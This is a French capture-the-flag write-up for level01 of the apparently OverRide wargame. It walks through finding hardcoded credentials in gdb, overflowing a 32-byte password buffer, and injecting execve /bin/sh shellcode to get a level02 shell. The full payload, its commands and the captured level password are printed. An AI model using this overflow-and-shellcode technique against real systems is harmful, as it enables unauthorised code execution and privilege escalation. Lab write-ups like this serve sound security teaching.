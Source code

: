 on a un exécutable qui affiche un prompt, on doit saisir un username et un password

après un coup d'oeil avec gdb on voit que l'username attendu est "dat_wil" et le password est "admin", mais le programme ne fait rien de plus

```
0x0804847d <+25>:    mov    $0x80486a8,%eax

(gdb) x/s 0x80486a8
0x80486a8:       "dat_wil"

0x080484ad <+10>:    mov    $0x80486b0,%eax

(gdb) x/s 0x80486b0
0x80486b0:       "admin"
```

après avoir désassemblé l'exécutable on observe qu'il n'y a aucun appel à un shell, on doit le faire nous-même avec un shellcode

on voit aussi que le fonction fgets() pour le password est vulnérable à un overflow car la fonction lit 100 caractères alors que le buffer a une taille de 32

le but de ce niveau est donc d'overflow en envoyant un shellcode

https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

avec le pattern generator on trouve un décalage de 80 octets :

```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

*0x37634136 = 80*

ensuite on récupère l'adresse du buffer où est stocké le password :

```
level01@OverRide:~$ ltrace ./level01
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)   = 39
printf("Enter Username: ")                    = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)           = 0x0804a040
puts("verifying username....\n"verifying username....

)              = 24
puts("Enter Password: "Enter Password:
)                      = 17
fgets(admin
"admin\n", 100, 0xf7fcfac0)             = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)         = 29
+++ exited (status 1) +++
```

l'adresse du buffer est _0xffffd6ec_

il nous manque un shellcode : "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

https://shell-storm.org/shellcode/files/shellcode-827.html

notre attaque sera sous la forme : [username + '\n'] + [shellcode] + [57 bytes] + [buffer address]

on peut ensuite construire et lancer notre attaque :

```
level01@OverRide:~$ echo -e "dat_wil\n\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xec\xd6\xff\xff" > /tmp/overflow
level01@OverRide:~$ (cat /tmp/overflow ; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

pwd
/home/users/level01
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
